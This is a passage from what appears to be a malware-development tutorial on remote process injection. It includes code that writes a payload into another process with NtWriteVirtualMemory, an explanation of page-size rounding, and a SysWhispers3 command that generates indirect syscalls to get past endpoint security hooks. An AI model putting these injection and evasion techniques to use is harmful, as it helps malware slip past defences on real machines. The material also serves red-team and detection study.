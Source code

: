 ```

	printf("[+] DONE \n");
	printf("\t[+] Thread Created With Id : %d \n", GetThreadId(hThread));

	return TRUE;
}


```
### **Payload Size & Rounding Up**

Recall that `NtAllocateVirtualMemory` rounds up the value of `RegionSize` to be a multiple of 4096. Due to the rounding up of the size, one must be careful when using the same payload size variable when allocating memory and writing to memory as it can lead to more bytes being written than what was intended. This is why the code above uses separate size variables for `NtAllocateVirtualMemory` and `NtWriteVirtualMemory`.

The issue is demonstrated in the code snippet below.


```
  // sPayloadSize is the payload's size (272 bytes)
  // Allocating memory
  if ((STATUS = St.pNtAllocateVirtualMemory(hProcess, &pAddress, 0, &sPayloadSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
    return FALSE;
  }

  // sPayloadSize's value is now 4096
  // Writing the payload with sPayloadSize (NumberOfBytesToWrite) as 4096 instead of the original size
  if ((STATUS = St.pNtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0) {
    return FALSE;
  }

```
### **Implementation Using SysWhispers**

The implementation here uses SysWhispers3 to bypass userland hooks via indirect syscalls. The following command is used to generate the required files for this implementation.


```
python syswhispers.py -a x64 -c msvc -m jumper_randomized -f NtAllocateVirtualMemory,NtProtectVirtualMemory,NtWriteVirtualMemory,NtCreateThreadEx -o SysWhispers -v

```
Three files are generated: `SysWhispers.h`, `SysWhispers.c` and `SysWhispers-asm.x64.asm`. The next step is to import these files into Visual Studio as noted in the [SysWhisper's Readme here](https://github.com/klezVirus/SysWhispers3#importing-into-visual-studio). The steps are demonstrated below.

### **Step 1**
